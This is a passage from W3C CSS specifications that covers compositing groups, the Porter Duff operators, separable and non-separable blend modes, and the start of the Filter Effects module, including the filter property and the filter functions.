- **Fb**: is defined by the Porter Duff operator in use

### 7. Backdrop calculation {#compositing-2:backdropCalc}

The **backdrop** is the content behind the element and is what the element is composited with. This means that the backdrop is the result of compositing all previous elements.

#### 7.1. Examples of backdrop calculation {#compositing-2:backdropexamples}

> **Example:** 
>
> This example has 2 simple shapes. The backdrop for the blue shape includes the bottom right corner of the red shape . The dotted line shows the area that is examined during compositing of the blue shape.

> **Example:** 
>
> The shape in the backdrop has an alpha value. The alpha value of the backdrop shape is preserved when the backdrop is calculated.

### 8. Compositing Groups {#compositing-2:groups}

Compositing groups allow more control over the interaction of compositing with the backdrop. Groups can be used to specify how a compositing effect within a group will interact with the content that is already in the scene (the backdrop).

Compositing groups may be made up of any number of elements, and may contain other compositing groups.

The default properties of a compositing group shall cause no visual difference compared to having no group. See [Group Invariance](#compositing-2:groupinvariance).

A compositing group is rendered by first compositing the elements of the group onto the initial backdrop. The result of this is a single element containing color and alpha information. This element is then composited onto the group backdrop. Steps shall be taken to ensure the group backdrop makes only a single contribution to the final composite.

**initial backdrop**

: The initial backdrop is the backdrop used for compositing the group’s first element. This will be the same as the group backdrop in a non-isolated group, or a fully transparent backdrop for an isolated group.

**group backdrop**

: The group backdrop is the result of compositing all elements up to but not including the first element in the group.

#### 8.1. Group invariance {#compositing-2:groupinvariance}

An important property of simple alpha compositing is its group invariance. This behavior is preserved in the more complex model described in this specification. Adding or removing grouping with default attributes shall not show visual differences.

```
so: A + B + C = A + (B + C) = (A + B) + C
```

When adding attributes to the group such as `isolate`, blending modes other than `normal` or Porter Duff compositing operators other than `source-over`, groups may no longer be invariant.

#### 8.2. Isolated Groups {#compositing-2:isolatedgroups}

In an isolated group, the initial backdrop shall be black and fully transparent.

In this instance, the initial backdrop is different than the group backdrop. The only interaction with the group backdrop shall occur when the group’s computed color, shape and alpha are composited with it.

See '[Isolated groups and Porter Duff modes](#compositing-2:groupcompositing)' for a description of the effect of isolated groups on compositing. See '[Effect of group isolation on blending](#compositing-2:isolationblending)' for a description of the effect of isolated groups on blending.

#### 8.3. The Root Element Group {#compositing-2:pagebackdrop}

The [isolated group](#compositing-2:isolatedgroups) for the root element is the root element group. All other elements and groups are composited into this group. The background of the root element (if specified) is painted into the root element group, and any filter, clip-path, mask and and opacity is then applied, before compositing into the [root group](#compositing-2:rootgroup), if present.

#### 8.4. The Root Group {#compositing-2:rootgroup}

The root group encompasses the entire canvas and contains (or is below) the root element group of the root element of a web page.

> **Note:** Browsers often use an infinite [white, 100% opaque](#css-color-4:sample) root group, for final compositing, but this is not required.

### 9. Advanced compositing features {#compositing-2:advancedcompositing}

[Simple alpha compositing](#compositing-2:simplealphacompositing) uses the source-over Porter Duff compositing operator.

Porter Duff compositing is based on a model of a pixel in which two shapes (source and destination) may contribute to the final color of the pixel. The pixel is divided into 4 sub-pixel regions and each region represents a possible combination of source and destination. [PORTERDUFF]

The four regions are:

**Source Only**

: Where only the source contributes to the pixel color

**Destination only**

: where only the destination contributes to the pixel color

**Both**

: Source and Destination – where both the source and destination may combine to define the pixel color

**None**

: No source or Destination – where neither make a contribution to the final pixel color

> **Note:** Destination is synonymous with backdrop. The term destination is used in this section as this is considered the standard when working with Porter Duff compositing. Additionally, the compositing operators use `destination` in their names.


The contribution from each region to the final pixel color is defined by the coverage of the shape at that pixel, and the operator in use. Coverage is specified in terms of alpha. Full alpha (1) implies full coverage, while zero alpha (0) implies no coverage. This means that the area of each region within the sub-pixel is dependent on the coverage of each shape contributing to the pixel. The area of each region can be calculated with the following equations:

| Both | αs x αb |
| --- | --- |
| Source only | αs x (1 – αb) |
| Destination only | αb x (1 – αs) |
| None | (1 – αs) x (1 – αb) |

The figure above represents coverage of 0.5 for both source and destination.

```
Both = 0.5 x 0.5 = 0.25
Source Only = 0.5 (1 – 0.5) = 0.25
Destination Only = 0.5(1 – 0.5) = 0.25
None = (1 – 0.5)(1 – 0.5) = 0.25
```

Therefore, the coverage of each region is 0.25 in this example.

#### 9.1. The Porter Duff Compositing Operators {#compositing-2:porterduffcompositingoperators}

The landmark paper by Thomas Porter and Tom Duff, who worked for Lucasfilm, defined the algebra of compositing and developed the twelve "Porter Duff" operators. These operators control the results of mixing the four sub-pixel regions formed by the overlapping of graphical objects that have an alpha or pixel coverage channel/value. The operators use all practical combinations of the four regions.

There are 12 basic Porter Duff operators, satisfying all possible combinations of source and destination.

From the geometric representation of each operator, the contribution of each shape can be seen to be expressed as a fraction of the total coverage of the output. For example, in source over, the possible contribution of source is full (1) and the possible contribution of destination is whatever is remaining (1 – αs). This is modified by the coverage of source and destination to give the equation for the final coverage of the pixel:

```
αo = αs x 1 + αb x (1 – αs)
```

The fractional terms Fa (1 in this example) and Fb (1 – αs in this example) are defined for each operator and specify the fraction of the shapes that may contribute to the final pixel value. The general form of the equation for coverage is:

```
αs x Fa + αb x Fb
```

and incorporating color gives the general Porter Duff equation

```
co = αs x Fa x Cs + αb x Fb x Cb
```

Where:

- co is the output color pre-multiplied with the output alpha [0 <= co <= 1]
- αs is the coverage of the source Fa is defined by the operator and controls inclusion of the source Cs is the color of the source (not multiplied by alpha)
- αb is the coverage of the destination Fb is defined by the operator and controls inclusion of the destination Cb is the color of the destination (not multiplied by alpha)

##### 9.1.1. Clear {#compositing-2:porterduffcompositingoperators_clear}

With the **clear** compositing operator, no regions are enabled.


```
Fa = 0; Fb = 0
co = 0
αo = 0
```

##### 9.1.2. Copy {#compositing-2:porterduffcompositingoperators_src}

With the **copy** compositing operator, only the source will be present.


```
Fa = 1; Fb = 0
co = αs x Cs
αo = αs
```

##### 9.1.3. Destination {#compositing-2:porterduffcompositingoperators_dst}

With the **destination** compositing operator, only the destination will be present.


```
Fa = 0; Fb = 1
co = αb x Cb
αo = αb
```

##### 9.1.4. Source Over {#compositing-2:porterduffcompositingoperators_srcover}

With the **source-over** compositing operator, the source is placed over the destination.


```
Fa = 1; Fb = 1 – αs
co = αs x Cs + αb x Cb x (1 – αs)
αo = αs + αb x (1 – αs)
```

##### 9.1.5. Destination Over {#compositing-2:porterduffcompositingoperators_dstover}

With the **destination-over** compositing operator, Destination is placed over the source.


```
Fa = 1 – αb; Fb = 1
co = αs x Cs x (1 – αb) + αb x Cb
αo = αs x (1 – αb) + αb
```

##### 9.1.6. Source In {#compositing-2:porterduffcompositingoperators_srcin}

With the **source-in** compositing operator, the parts of the source that overlap with the desitnation are placed.


```
Fa = αb; Fb = 0
co = αs x Cs x αb
αo = αs x αb
```

##### 9.1.7. Destination In {#compositing-2:porterduffcompositingoperators_dstin}

With the **destination-in** compositing operator, the parts of the destination that overlap with the source are placed.


```
Fa = 0; Fb = αs
co = αb x Cb x αs
αo = αb x αs
```

##### 9.1.8. Source Out {#compositing-2:porterduffcompositingoperators_srcout}

With the **source-out** compositing operator, the parts of the source that fall outside of the destination are placed.


```
Fa = 1 – αb; Fb = 0
co = αs x Cs x (1 – αb)
αo = αs x (1 – αb)
```

##### 9.1.9. Destination Out {#compositing-2:porterduffcompositingoperators_dstout}

With the **destination-out** compositing operator, the parts of the destination that fall outside of the source are placed.


```
Fa = 0; Fb = 1 – αs
co = αb x Cb x (1 – αs)
αo = αb x (1 – αs)
```

##### 9.1.10. Source Atop {#compositing-2:porterduffcompositingoperators_srcatop}

With the **source-atop** compositing operator, the parts of the source which overlap the destination replace the destination. The destination is placed everywhere else.


```
Fa = αb; Fb = 1 – αs
co = αs x Cs x αb + αb x Cb x (1 – αs)
αo = αs x αb + αb x (1 – αs)
```

##### 9.1.11. Destination Atop {#compositing-2:porterduffcompositingoperators_dstatop}

With the **destination-atop** compositing operator, the parts of the destination which overlaps the source replace the source. The source is placed everywhere else.


```
Fa = 1 - αb; Fb = αs
co = αs x Cs x (1 - αb) + αb x Cb x αs
αo = αs x (1 - αb) + αb x αs
```

##### 9.1.12. XOR {#compositing-2:porterduffcompositingoperators_xor}

With the **xor** compositing operator, the non-overlapping regions of source and destination are combined.


```
Fa = 1 - αb; Fb = 1 – αs
co = αs x Cs x (1 - αb) + αb x Cb x (1 – αs)
αo = αs x (1 - αb) + αb x (1 – αs)
```

##### 9.1.13. Lighter {#compositing-2:porterduffcompositingoperators_plus}

With the **lighter** compositing operator, the sum of the source image and destination image is displayed. It is defined in the Porter Duff paper as the `plus` operator [PORTERDUFF].

```
Fa = 1; Fb = 1
co = αs x Cs + αb x Cb;
αo = αs + αb
```

##### 9.1.14. Plus-darker {#compositing-2:porterduffcompositingoperators_plus_darker}

With the **plus-darker** compositing operator, the following steps are performed:

```
Fa = 1; Fb = 1
co = max(0, 1 - αs x Cs + 1 - αb x Cb);
αo = max(0, 1 - αs + 1 - αb);
```

##### 9.1.15. Plus-lighter {#compositing-2:porterduffcompositingoperators_plus_lighter}

With the **plus-lighter** compositing operator, the following steps are performed:

```
Fa = 1; Fb = 1
co = min(1, αs x Cs + αb x Cb);
αo = min(1, αs + αb);
```

> **Example:** plus-lighter is particularly useful for cross-fade effects.
>
> Given the following sample markup:
>
> ```
> <div class="container">
>   <div class="from"></div>
>   <div class="to"></div>
> </div>
> ```
>
> And the following styles:
>
> ```
> .container {
>   display: grid;
> }
> .container > div {
>   width: 100px;
>   height: 100px;
>   /* Place the elements on top of each other */
>   grid-area: 1 / 1;
> }
> .from {
>   background-color: rgb(100% 0% 0% / 50%);
> }
> .to {
>   background-color: rgb(0% 0% 100% / 50%);
> }
> ```
>
> If you wanted to produce a 50% cross-fade between `from` and `to`, a naive approach would be to give each 50% opacity:
>
> ```
> .from {
>   opacity: 0.5;
> }
> .to {
>   opacity: 0.5;
> }
> ```
>
> However, with default source-over compositing, this produces a result of roughly `rgb(43% 0% 57% / 44%)`. This is correct value when "layering" elements, but it’s incorrect for a 50% cross-fade.
>
> Instead, using plus-lighter:
>
> ```
> .container {
>   /* Limit the scope of the plus-lighter operation */
>   isolation: isolate;
> }
> .from {
>   opacity: 0.5;
> }
> .to {
>   opacity: 0.5;
>   mix-blend-mode: plus-lighter;
> }
> ```
>
> This results in `rgb(50% 0% 50% / 50%)`, which is correctly "half-way" between the `from` and `to` colors.

#### 9.2. Group compositing behavior with Porter Duff modes {#compositing-2:groupcompositing}

When compositing the elements within an isolated group, the elements are composited over a transparent black initial backdrop. If the bottom element in the group uses a Porter Duff compositing operator which is dependent on the backdrop, such as destination, source-in, destination-in, destination-out, or source-atop, then the result of the composite will be empty. Subsequent elements within the group are composited with the result of the first composite.

### 10. Blending {#compositing-2:blending}

Blending is the aspect of compositing that calculates the mixing of colors where the source element and backdrop overlap.  Conceptually, the colors in the source element are blended in place with the backdrop. After blending, the modified source element is composited with the backdrop. In practice, this is usually all performed in one step.  The blending calculations must not use pre-multiplied color values.

The "mixing" formula is defined as:

```
Cm = B(Cb, Cs)
```

with:

- Cm: the result color after blending
- B: the formula that does the blending
- Cb: the backdrop color
- Cs: the source color

The result of the mixing formula must be clamped to the minimum and maximum values of the color range.

The result of the mixing function is modulated by the backdrop alpha. A fully opaque backdrop allows the mixing function to be fully realized. A transparent backdrop will cause the final result to be a weighted average between the source color and mixed color with the weight controlled by the backdrop alpha. The value of the new color becomes:

```
Cr = (1 - αb) x Cs + αb x B(Cb, Cs)
```

with:

- Cr: the result color
- B: the formula that does the blending
- Cs: the source color
- Cb: the backdrop color
- αb: the backdrop alpha

> **Example:** 
>
> This example has a red rectangle with a blending mode that is placed on top of a set of green rectangles that have different levels of opacity.
>
> Note how the top rectangle shifts more toward red as the opacity of the backdrop gets smaller.

> **Note:** The following formula gives the color value in the area where the source and backdrop intersects and then composites with the specified Porter Duff compositing formula. For simple alpha blending, the formula thus becomes:

```
simple alpha compositing:
    co = cs + cb x (1 - αs)
written as non-premultiplied:
    αo x Co = αs x Cs + (1 - αs) x αb x Cb
now substitute the result of blending for Cs:
    αo x Co = αs x ((1 - αb) x Cs + αb x B(Cb, Cs)) + (1 - αs) x αb x Cb
            = αs x (1 - αb) x Cs + αs x αb x B(Cb, Cs) + (1 - αs) x αb x Cb
```

#### 10.1. Separable blend modes {#compositing-2:blendingseparable}

A blend mode is termed separable if each component of the result color is completely determined by the corresponding components of the constituent backdrop and source colors — that is, if the mixing formula is applied **separately** to each set of corresponding components.

Each of the following blend modes will apply the blending function B(Cb, Cs) on each of the color components. For simplicity, all the examples in this chapter use source-over compositing.

##### 10.1.1. **normal** blend mode {#compositing-2:blendingnormal}

This is the default attribute which specifies no blending. The blending formula simply selects the source color.

```
B(Cb, Cs) = Cs
```


##### 10.1.2. **multiply** blend mode {#compositing-2:blendingmultiply}

The source color is multiplied by the destination color and replaces the destination.

The resultant color is always at least as dark as either the source or destination color. Multiplying any color with black results in black. Multiplying any color with white preserves the original color.

```
B(Cb, Cs) = Cb x Cs
```


##### 10.1.3. **screen** blend mode {#compositing-2:blendingscreen}

Multiplies the complements of the backdrop and source color values, then complements the result.

The result color is always at least as light as either of the two constituent colors. Screening any color with white produces white; screening with black leaves the original color unchanged. The effect is similar to projecting multiple photographic slides simultaneously onto a single screen.

```
B(Cb, Cs) = 1 - [(1 - Cb) x (1 - Cs)]
          = Cb + Cs -(Cb x Cs)
```


##### 10.1.4. **overlay** blend mode {#compositing-2:blendingoverlay}

Multiplies or screens the colors, depending on the backdrop color value.

Source colors overlay the backdrop while preserving its highlights and shadows. The backdrop color is not replaced but is mixed with the source color to reflect the lightness or darkness of the backdrop.

```
B(Cb, Cs) = HardLight(Cs, Cb)
```

Overlay is the inverse of the `hard-light` blend mode. See the definition of hard-light for the formula.


##### 10.1.5. **darken** blend mode {#compositing-2:blendingdarken}

Selects the darker of the backdrop and source colors.

The backdrop is replaced with the source where the source is darker; otherwise, it is left unchanged.

```
B(Cb, Cs) = min(Cb, Cs)
```


##### 10.1.6. **lighten** blend mode {#compositing-2:blendinglighten}

Selects the lighter of the backdrop and source colors.

The backdrop is replaced with the source where the source is lighter; otherwise, it is left unchanged.

```
B(Cb, Cs) = max(Cb, Cs)
```

> **Note:** The result must be rounded down if it exceeds the range.


##### 10.1.7. **color-dodge** blend mode {#compositing-2:blendingcolordodge}

Brightens the backdrop color to reflect the source color. Painting with black produces no changes.

```
if(Cb == 0)
    B(Cb, Cs) = 0
else if(Cs == 1)
    B(Cb, Cs) = 1
else
    B(Cb, Cs) = min(1, Cb / (1 - Cs))
```


##### 10.1.8. **color-burn** blend mode {#compositing-2:blendingcolorburn}

Darkens the backdrop color to reflect the source color. Painting with white produces no change.

```
if(Cb == 1)
    B(Cb, Cs) = 1
else if(Cs == 0)
    B(Cb, Cs) = 0
else
    B(Cb, Cs) = 1 - min(1, (1 - Cb) / Cs)
```


##### 10.1.9. **hard-light** blend mode {#compositing-2:blendinghardlight}

Multiplies or screens the colors, depending on the source color value. The effect is similar to shining a harsh spotlight on the backdrop.

```
if(Cs <= 0.5)
    B(Cb, Cs) = Multiply(Cb, 2 x Cs)
else
    B(Cb, Cs) = Screen(Cb, 2 x Cs -1)
```

See the definition of `multiply` and `screen` for their formulas.


##### 10.1.10. **soft-light** blend mode {#compositing-2:blendingsoftlight}

Darkens or lightens the colors, depending on the source color value. The effect is similar to shining a diffused spotlight on the backdrop.

```
    if(Cs <= 0.5)
        B(Cb, Cs) = Cb - (1 - 2 x Cs) x Cb x (1 - Cb)
    else
        B(Cb, Cs) = Cb + (2 x Cs - 1) x (D(Cb) - Cb)
with
    if(Cb <= 0.25)
        D(Cb) = ((16 * Cb - 12) x Cb + 4) x Cb
    else
        D(Cb) = sqrt(Cb)
```


##### 10.1.11. **difference** blend mode {#compositing-2:blendingdifference}

Subtracts the darker of the two constituent colors from the lighter color.

Painting with white inverts the backdrop color; painting with black produces no change.

```
B(Cb, Cs) = | Cb - Cs |
```


##### 10.1.12. **exclusion** blend mode {#compositing-2:blendingexclusion}

Produces an effect similar to that of the Difference mode but lower in contrast. Painting with white inverts the backdrop color; painting with black produces no change

```
B(Cb, Cs) = Cb + Cs - 2 x Cb x Cs
```


#### 10.2. Non-separable blend modes {#compositing-2:blendingnonseparable}

Nonseparable blend modes consider all color components in combination as opposed to the separable ones that look at each component individually. All of these blend modes conceptually entail the following steps:

1. Convert the backdrop and source colors from the blending color space to an intermediate hue-saturation-luminosity representation.
2. Create a new color from some combination of hue, saturation, and luminosity components selected from the backdrop and source colors.
3. Convert the result back to the original color space.

The nonseparable blend mode formulas make use of several auxiliary functions:

```
    Lum(C) = 0.3 x Cred + 0.59 x Cgreen + 0.11 x Cblue

    ClipColor(C)
        L = Lum(C)
        n = min(Cred, Cgreen, Cblue)
        x = max(Cred, Cgreen, Cblue)
        if(n < 0)
            C = L + (((C - L) * L) / (L - n))

        if(x > 1)
            C = L + (((C - L) * (1 - L)) / (x - L))

        return C

    SetLum(C, l)
        d = l - Lum(C)
        Cred = Cred + d
        Cgreen = Cgreen + d
        Cblue = Cblue + d
        return ClipColor(C)

    Sat(C) = max(Cred, Cgreen, Cblue) - min(Cred, Cgreen, Cblue)

The subscripts min, mid, and max in the next function refer to the color
components having the minimum, middle, and maximum values upon entry to the function.

    SetSat(C, s)
        if(Cmax > Cmin)
            Cmid = (((Cmid - Cmin) x s) / (Cmax - Cmin))
            Cmax = s
        else
            Cmid = Cmax = 0
        Cmin = 0
        return C;
```

##### 10.2.1. **hue** blend mode {#compositing-2:blendinghue}

Creates a color with the hue of the source color and the saturation and luminosity of the backdrop color.

```
B(Cb, Cs) = SetLum(SetSat(Cs, Sat(Cb)), Lum(Cb))
```


##### 10.2.2. **saturation** blend mode {#compositing-2:blendingsaturation}

Creates a color with the saturation of the source color and the hue and luminosity of the backdrop color. Painting with this mode in an area of the backdrop that is a pure gray (no saturation) produces no change.

```
B(Cb, Cs) = SetLum(SetSat(Cb, Sat(Cs)), Lum(Cb))
```


##### 10.2.3. **color** blend mode {#compositing-2:blendingcolor}

Creates a color with the hue and saturation of the source color and the luminosity of the backdrop color. This preserves the gray levels of the backdrop and is useful for coloring monochrome images or tinting color images.

```
B(Cb, Cs) = SetLum(Cs, Lum(Cb))
```


##### 10.2.4. **luminosity** blend mode {#compositing-2:blendingluminosity}

Creates a color with the luminosity of the source color and the hue and saturation of the backdrop color. This produces an inverse effect to that of the Color mode.

```
B(Cb, Cs) = SetLum(Cb, Lum(Cs))
```


#### 10.3. Effect of group isolation on blending {#compositing-2:isolationblending}

> **Note:** In the following example, the elements used to construct the paper airplane are within a group. Each of these elements has their blend mode set to multiply.

> **Example:** The airplane on the left is a normal group, the airplane on the right is an [isolated group](#compositing-2:isolatedgroups).
>
> In the isolated group, the elements within the group are composited onto an empty initial backdrop, this stops the elements within the group multiplying with the backdrop. In the normal group, the elements within the group are composited onto the initial backdrop containing the land and sky. Therefore the elements of the airplane multiply with the land and sky. In both instances, the result of the group composite is composited onto the land and sky using the normal mix-blend-mode (the default mix-blend-mode applied to the group).
>
> 

---

## Filter Effects Module Level 1 {#filter-effects-1}

- **Shortname:** `filter-effects-1`
- **Editor's Draft:** [https://drafts.csswg.org/filter-effects-1/](https://drafts.csswg.org/filter-effects-1/)
- **Published TR:** [https://www.w3.org/TR/filter-effects-1/](https://www.w3.org/TR/filter-effects-1/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-09-22

### 1. Introduction {#filter-effects-1:intro}

*This section is not normative*

A filter effect is a graphical operation that is applied to an element as it is drawn into the document. It is an image-based effect, in that it takes zero or more images as input, a number of parameters specific to the effect, and then produces an image as output. The output image is either rendered into the document instead of the original element, used as an input image to another filter effect, or provided as a CSS image value.

A simple example of a filter effect is a “flood”. It takes no image inputs but has a parameter defining a color. The effect produces an output image that is completely filled with the given color. A slightly more complex example is an “inversion” which takes a single image input (typically an image of the element as it would normally be rendered into its parent) and adjusts each pixel such that they have the opposite color values.

Filter effects are exposed with two levels of complexity:

1. A small set of canned filter functions that are given by name. While not particularly powerful, these are convenient and easily understood and provide a simple approach to achieving common effects, such as blurring. The canned filters can also be animated by [CSS3-ANIMATIONS].
2. A graph of individual filter effects described in markup that define an overall effect. The graph is agnostic to its input in that the effect can be applied to any content. While such graphs are the combination of effects that may be simple in isolation, the graph as a whole can produce complex effects. An example is given below.

> **Example:** In this example, an image is filtered with the `grayscale()` filter function.
>
> ```
> #image {
>     filter: grayscale(100%);
> }
> ```
>
> 
>
> An image without filter (left) and the same filter with a 100% grayscale filter (right).

> **Example:** The following shows an example of graph of individual filter effects.
>
> 
>
> Initial example for a filtered object.
>
> [View this example as SVG](../filter-effects-1/examples/filters01.svg)
>
> The filter effect used in the example above is repeated here with reference numbers in the left column before each of the six filter primitives:
>
> | 1 2 3 4 5 6 | <filter id="MyFilter" filterUnits="userSpaceOnUse" x="0" y="0" width="200" height="120"> <desc>Produces a 3D lighting effect.</desc> <feGaussianBlur in="SourceAlpha" stdDeviation="4" result="blur"/> <feOffset in="blur" dx="4" dy="4" result="offsetBlur"/> <feSpecularLighting in="blur" surfaceScale="5" specularConstant=".75" specularExponent="20" lighting-color="#bbbbbb" result="specOut"> <fePointLight x="-5000" y="-10000" z="20000"/> </feSpecularLighting> <feComposite in="specOut" in2="SourceAlpha" operator="in" result="specOut"/> <feComposite in="SourceGraphic" in2="specOut" operator="arithmetic" k1="0" k2="1" k3="1" k4="0" result="litPaint"/> <feMerge> <feMergeNode in="offsetBlur"/> <feMergeNode in="litPaint"/> </feMerge> </filter> |
> | --- | --- |
>
> The following pictures show the intermediate image results from each of the six filter elements:
>
> 
>
> Source graphic
>
> 
>
> After filter primitive 1
>
> 
>
> After filter primitive 2
>
> 
>
> After filter primitive 3
>
> 
>
> After filter primitive 4
>
> 
>
> After filter primitive 5
>
> 
>
> After filter primitive 6
>
> 1. Filter primitive feGaussianBlur takes input SourceAlpha, which is the alpha channel of the source graphic. The result is stored in a temporary buffer named "blur". Note that "blur" is used as input to both filter primitives 2 and 3.
> 2. Filter primitive feOffset takes buffer "blur", shifts the result in a positive direction in both x and y, and creates a new buffer named "offsetBlur". The effect is that of a drop shadow.
> 3. Filter primitive feSpecularLighting, uses buffer "blur" as a model of a surface elevation and generates a lighting effect from a single point source. The result is stored in buffer "specOut".
> 4. Filter primitive feComposite masks out the result of filter primitive 3 by the original source graphics alpha channel so that the intermediate result is no bigger than the original source graphic.
> 5. Filter primitive feComposite composites the result of the specular lighting with the original source graphic.
> 6. Filter primitive feMerge composites two layers together. The lower layer consists of the drop shadow result from filter primitive 2. The upper layer consists of the specular lighting result from filter primitive 5.

### 2. Module interactions {#filter-effects-1:placement}

This specification defines a set of CSS properties that affect the visual rendering of elements to which those properties are applied; these effects are applied after elements have been sized and positioned according to the [Visual formatting model](#css2) from [CSS21]. Some values of these properties result in the creation of a containing block, and/or the creation of a stacking context.

The compositing model follows the SVG compositing model [SVG11]: first any filter effect is applied, then any clipping, masking and opacity [CSS3COLOR]. These effects all apply after any other CSS effects such as `border` [CSS3BG].

Some property and element definitions in this specification require an SVG 1.1 implementation [SVG11]. UAs without support for SVG must not implement the `color-interpolation-filters`, `flood-color`, `flood-opacity` and `lighting-color` properties as well as the filter element, the feMergeNode element, the transfer function elements and the filter primitive elements.

### 3. Values {#filter-effects-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21]. Value types not defined in these specifications are defined in CSS Values and Units Module Level 3 [CSS3VAL].

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the [inherit](#css2:value-def-inherit) keyword as their property value. For readability it has not been repeated explicitly.

### 4. Terminology {#filter-effects-1:definitions}

When used in this specification, terms have the meanings assigned in this section.

****filter primitive**, **`filter-primitive`****

: The set of elements that control the output of a filter element, particularly: feSpotLight, feBlend, feColorMatrix, feComponentTransfer, feComposite, feConvolveMatrix, feDiffuseLighting, feDisplacementMap, feDropShadow, feFlood, feGaussianBlur, feImage, feMerge, feMorphology, feOffset, feSpecularLighting, feTile, feTurbulence.

****pass through filter****

: The pass through filter output is equal to the primary input of the filter primitive.

### 5. Graphic filters: the `filter` property {#filter-effects-1:FilterProperty}

| Field | Value |
| --- | --- |
| Name: | **filter** |
| [Value:](#css-values-4:value-defs) | none \| `<filter-value-list>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements without the defs element, all graphics elements and the use element. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | See prose in [Animation of Filters](#filter-effects-1:animation-of-filters). |
| Media: | visual |

The `filter` property applies a filter, specified either by an SVG reference or by a filter function, to an element, altering how it paints.

```css
<filter-value-list> = [ <filter-function> | <url> ]+
```

****<url>****

: A filter reference to a filter element. For example `url(commonfilters.svg#filter)`. If the filter references a non-existent object or the referenced object is not a filter element, then the whole filter chain is ignored. No filter is applied to the object.

**`<filter-function>`**

: See filter functions.

**none**

: No filter effect gets applied.

A value other than `none` for the `filter` property results in the creation of a containing block for absolute and fixed positioned descendants unless the element it applies to is a document root element in the current browsing context. The list of functions are applied in the order provided.

The first filter function or filter reference in the list takes the element (SourceGraphic) as the input image. Subsequent operations take the output from the previous filter function or filter reference as the input image. filter element reference functions can specify an alternate input, but still uses the previous output as its SourceGraphic.

`color-interpolation-filters` has no affect for Filter Functions. Filter Functions must operate in the sRGB color space.

A computed value of other than `none` results in the creation of a [stacking context](#css2) [CSS21] the same way that CSS `opacity` does. All the elements descendants are rendered together as a group with the filter effect applied to the group as a whole.

The `filter` property has no effect on the geometry of the target element’s CSS boxes, although `filter` can contribute to the element’s ink overflow area.

Conceptually, any parts of the drawing are effected by filter operations. This includes any content, background, borders, text decoration, outline and visible scrolling mechanism of the element to which the filter is applied, and those of its descendants. The filter operations are applied in the element’s local coordinate system.

The compositing model follows the [SVG compositing model](https://www.w3.org/TR/SVG11/render.html#Introduction) [SVG11]: first any filter effect is applied, then any clipping, masking and opacity. As per SVG, the application of `filter` has no effect on hit-testing.

The `filter` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

> **Issue:** How does filter behave on fixed background images? [[Issue #238]](https://github.com/w3c/csswg-drafts/issues/238)

### 6. Filter Functions {#filter-effects-1:filter-functions}

The following **filter functions** specify a variety of simple filters, equivalent to particular SVG `filter` elements.

#### 6.1. Supported Filter Functions {#filter-effects-1:supported-filter-functions}

```css
<filter-function> = <blur()> | <brightness()> | <contrast()> | <drop-shadow()> |
  <grayscale()> | <hue-rotate()> | <invert()> | <opacity()> | <sepia()> | <saturate()>
```

Unless defined otherwise, omitted values default to the initial value for interpolation.

> **Note:** For some filter functions the default value for omitted values differes from their initial value for interpolation. For the convenience of content creators, the default value for omitted values for `grayscale()`, `sepia()` and `invert()` is `1` (apply the effect to 100%) while the initial value for interpolation is `0` (no effect).

****blur()** = blur( <length>? )**

: Applies a Gaussian blur to the input image. The passed parameter defines the value of the standard deviation to the Gaussian function. The parameter is specified a CSS length, but does not accept percentage values. The markup equivalent of this function is [given below](#filter-effects-1:blurEquivalent).

  Negative values are not allowed.

  Default value when omitted is `0px`.

  The initial value for interpolation is `0px`.

  > **Note:** Standard deviation is different to `box-shadow` s blur radius.

  The ink overflow rectangle for a Gaussian blur is the axis-aligned boundary of the area in which the implementation draws the blur.

  > **Note:** A true Gaussian blur has theoretically infinite extent, but in practice all implementations use a finite-area approximation of a Gaussian blur. At the time of writing (January 2024) all major implementations use the familiar three-pass box blur approximation, which has extent:  `((3 * sqrt(2 * π) / 4) * σ)`.

****brightness()** = brightness( [ <number> | <percentage> ]? )**

: Applies a linear multiplier to input image, making it appear more or less bright. A value of `0%` will create an image that is completely black. A value of `100%` leaves the input unchanged. Other values are linear multipliers on the effect. Values of amount over 100% are allowed, providing brighter results. The markup equivalent of this function is [given below](#filter-effects-1:brightnessEquivalent).

  Negative values are not allowed.

  Default value when omitted is `1`.

  The initial value for interpolation is `1`.

****contrast()** = contrast( [ <number> | <percentage> ]? )**

: Adjusts the contrast of the input. A value of `0%` will create an image that is completely gray. A value of `100%` leaves the input unchanged. Values of amount over 100% are allowed, providing results with more contrast. The markup equivalent of this function is [given below](#filter-effects-1:contrastEquivalent).

  Negative values are not allowed.

  Default value when omitted is `1`.

  The initial value for interpolation is `1`.

****drop-shadow()** = drop-shadow( [ <color>? && <length>{2,3} ] )**

: Applies a drop shadow effect to the input image. A drop shadow is effectively a blurred, offset version of the input image’s alpha mask drawn in a particular color, composited below the image. Values are interpreted as for `box-shadow` [CSS3BG] but with the optional 3rd `<length>` value being the standard deviation instead of blur radius. The markup equivalent of this function is [given below](#filter-effects-1:dropshadowEquivalent).

  The default value for omitted values is missing length values set to `0` and the missing used color is taken from the color property.

  The initial value for interpolation is all length values set to `0` and the used color set to `transparent`.

  > **Note:** Spread values or multiple shadows are not accepted for this level of the specification.

  > **Note:** Standard deviation is different to `box-shadow` s blur radius.

  The ink overflow rectangle for a drop shadow is the extent of the offsets, plus the extent of the blur (if any) as described for `blur()`.

****grayscale()** = grayscale( [ <number> | <percentage> ]? )**

: Converts the input image to grayscale. The passed parameter defines the proportion of the conversion. A value of `100%` is completely grayscale. A value of `0%` leaves the input unchanged. Values between `0%` and `100%` are linear multipliers on the effect. Values of amount over `100%` are allowed but UAs must clamp the values to `1`. The markup equivalent of this function is [given below](#filter-effects-1:grayscaleEquivalent).

  Negative values are not allowed.

  Default value when omitted is `1`.

  The initial value for interpolation is `0`.

****hue-rotate()** = hue-rotate( [ <angle> | <zero> ]? )**

: Applies a hue rotation on the input image. The passed parameter defines the number of degrees around the color circle the input samples will be adjusted. A value of `0deg` leaves the input unchanged. Implementations must not normalize this value in order to allow animations beyond `360deg`. The markup equivalent of this function is [given below](#filter-effects-1:huerotateEquivalent).

